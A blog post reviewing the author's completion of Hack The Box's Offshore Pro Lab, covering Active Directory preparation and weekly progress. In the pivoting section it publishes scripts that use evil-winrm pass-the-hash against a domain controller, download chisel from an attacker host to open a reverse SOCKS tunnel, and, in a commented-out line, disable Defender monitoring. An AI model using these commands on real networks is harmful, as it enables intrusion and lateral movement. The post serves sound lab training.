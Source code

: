 ```yaml
---
title: Offshore Review
categories: [blog]
classes: wide
toc: true
excerpt: "My journey through HTB's Offshore Pro Lab!"
---
```


# Intro

December was gonna be another month of lockdown at home without much to do, so after a friend pwned it, and some nice troll from the InfoSec Prep discord started it, I decided to follow suit and to dedicate the month to [Offshore](https://www.hackthebox.eu/home/labs/pro/view/2)! Unfortunately I was a bit impatient, bought the lab access on the 1st of December at midnight, turned out that they had a 50% discount from the 1st of December, which was rolled out during the day, so missed that 😅

# Getting up to speed with Active Directory

I had dedicated the last 2 weeks of November to get up to speed with Active Directory and the attacks on it, I used [Attacking and Defending Directory](https://www.pentesteracademy.com/course?id=47) from PentesterAcademy (which is what comes bundled up with CRTP), the AD section of Heath Adam's Practical Ethical Hacking Udemy [course](https://www.udemy.com/course/practical-ethical-hacking/), and various blog posts about specific attacks I found after googling around a bit. Overall it was very much needed, as my first and last interaction with AD was with the HTB Forest box, which I had done while it was active, but with way too many hints, and without understanding what I was doing. Putting words in my head behind how Kerberos works, what kerberoasting or asreproasting is, how to get golden/silver ticket, etc helped a lot understanding the basics.

I even made my own little AD lab first on Azure, then at home, to follow along some attacks on Heath Adams' course and to experiment a bit. Some resources for that [here](https://csenox.github.io/active-directory/2020/10/07/AD-Lab/), [here](https://medium.com/@vartaisecurity/lab-building-guide-virtual-active-directory-5f0d0c8eb907), [here](https://kamran-bilgrami.medium.com/ethical-hacking-lessons-building-free-active-directory-lab-in-azure-6c67a7eddd7f), [here](https://medium.com/swlh/building-an-active-directory-lab-part-1a-automatedlab-fc2399ebe5be), [here](https://social.technet.microsoft.com/wiki/contents/articles/36438.windows-server-2016-build-a-windows-domain-lab-at-home-for-free.aspx), and [here](https://1337red.wordpress.com/building-and-attacking-an-active-directory-lab-with-powershell/).

I decided to take the opportunity to learn some new tools, so I set up [Obsidian](https://obsidian.md/) for note taking, and [Covenant](https://github.com/cobbr/Covenant) as a C2. Spoiler, I ended up using more often metasploit than covenant as a C2 haha! Also set up a [Commando VM](https://github.com/fireeye/commando-vm) that could access my covenant server running on my Parrot machine, ended up doing everything from Parrot...

# Week 1: Baby steps

Armed with my new found AD knowledge, I started Offshore... and didn't see any AD attacks for a while 😅 There was some web attacks, a first pivot using SSH, some looking around making lots of noise (a blue teamer in charge of the offshore domains would have been able to run circles around me :P). But making friends along the way especially in the HTB discord server, we got together for some challenges, and I was at 25% at the end of my first week, on track to finish by Christmas!

# Week 2: Pivoting...

The first domain owned, started the pivoting game, and the AD attacks. It took me a few hours to find the best solutions for pivoting through the domains, using this [post](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/) which was very thorough in the many ways a red teamer can pivot through a network, and tired of having to type commands over and over, I decided to script my pivoting, and here's the result: (spoiler free and re-usable)

+ `pivot2.sh` to serve chisel64.exe, pipe the powershell script to evil-winrm, and set the proxychains config for this DC:

```bash
#!/bin/bash

if [ $# -ne 1 ]; then
    echo '-s[tart]/-r[un]'
    exit
fi

sudo sed -i 's/127\.0\.0\.1 108./127\.0\.0\.1 1080/' /etc/proxychains.conf

if [[ $1 = '-s' ]]; then
    echo '[+] Serving on port 8000...'
    python3 -m http.server 8000 > /dev/null 2>&1 &
    cat pivot2_s.ps1 | evil-winrm -u administrator -H YOUTHOUGHTYOUDSEEAHASHDIDNTYOU -i 172.16.X.X
else
    cat pivot2_r.ps1 | evil-winrm -u administrator -H YOUTHOUGHTYOUDSEEAHASHDIDNTYOU -i 172.16.X.X
fi
```

+ `pivot2_s.ps1` to upload and run the chisel client on the DC:

```powershell
# Set-MpPreference -DisableRealtimeMonitoring $true
cd ../appdata/local/temp
curl -outf chisel.exe http://10.10.14.XX:8000/chisel64.exe
./chisel client 10.10.14.XX:12345 R:1080:socks
```

+ `pivot2_r.ps1` to run the chisel client if it's already uploaded:

```powershell
# Set-MpPreference -DisableRealtimeMonitoring $true
cd ../appdata/local/temp
./chisel client 10.10.14.XX:12345 R:1080:socks
```

+ `pivot3.sh` to kill the HTTP server, launch the chisel server, and change the proxychains config for the new pivot:

```bash
#!/bin/bash

ps -aux | grep http.server | grep 8000 | grep -P '\d+' -o | head -1 | xargs kill 2>&1 > /dev/null
sudo sed -i 's/127\.0\.0\.1 108./127\.0\.0\.1 1081/' /etc/proxychains.conf
chisel server -p 12345 -reverse
```

You're welcome to steal those short scripts and adapt them for your pivoting needs! As I would get to know, I'd need a few of those to pivot through all the domains, in total 4 pivots!

# Week 3: AD Attacks are yummy

Cross domain and cross forest attacks were kinda new to me but I had a blast learning them! Also, ACLs can hide many juicy things :P Bloodhound was a lot of help in finding out how to abuse some ACLs and trusts, I wish I had used [PowerView](https://exploit.ph/powerview.html) more though and enumerated some stuff manually, would have prevented a lot of VM lagging and crashes because well I had obsidian, covenant, discord, and bloodhound running at the same time... But still learned a lot along the way, and the 3rd week was the 3rd quarter syndrome a bit, seeing how much work I had done, and seeing I had about the same amount still to do, and Christmas approaches...

# Week 4: Flag hunt

Total domain pwnage! I had owned all offshore domains... and was still missing a few flags. So on the enumeration hunt I went, trying to find some hidden flags, and turns out one of those was actually from a challenge that had been removed! Thanks to Ippsec for the help taking care of that!

24th of December, 3 PM, all domain flags in the pocket, getting ready for Christmas cooking... and still lacking one linux machine! This one turned up to be a bit of a closed beast, but was a very nice programming challenge, and I enjoyed writing the script to get the privesc on it, but that was on the 25th. So in the end Offshore completed, just on Christmas day :D And a nice certificate as a gift!

![Offshore Certificate]({{site.url}}/assets/images/offshore-certificate.png)

# Review

Overall I learned during my Offshore journey, some challenges were frustrating, some required a bit of help, I won't hide it, I made good friends along the way, and I'm very happy I could finish it under a month. I would recommend Offshore to all pentesters/hackers who want some more hands-on experience with AD attacks, and pivoting through networks, and who are not shy of googling stuff until it works. Very long but very good experience, looking forward to doing more AD related stuff in the future!
